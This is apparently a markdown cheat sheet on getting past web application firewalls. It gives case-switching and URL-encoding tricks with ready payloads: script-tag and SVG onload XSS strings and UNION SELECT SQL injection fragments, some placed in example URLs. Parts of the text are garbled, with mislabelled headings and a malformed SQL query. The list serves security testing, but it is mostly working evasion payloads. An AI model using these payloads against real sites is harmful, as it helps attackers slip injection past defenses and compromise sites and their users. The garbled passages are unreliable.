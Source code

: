 ## Techniques to bypass WAF:

### 1. Case-switching technique

Combine uppercase and lowercase characters to create efficient payloads.

**Basic request:**

```bash
<script>confirm()</script>
```

**Skipped technique:**

```bash
<ScrIpT>confirm()</sCRiPt>
```

**Basic request:**

- SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

**Technique omitted:**

- sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

**Example in URL:**

> http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4

### 2. URL Encoding Technique

Encode normal payloads with % URL encoding/encoding. You can use Burp Suite. You have an encoder/decoder tool.

**Blocked by WAF:** 

```bash
<Svg/x=“>”/OnLoAD=confirm()//
```

**Skipped technique:** 

```bash
%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F
```

**Blocked by WAF:** 

```bash
UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)
```

**Technique omitted:** > UniOn%28SeLeCt

```bash
UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29
```

**Example URL:**

> https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
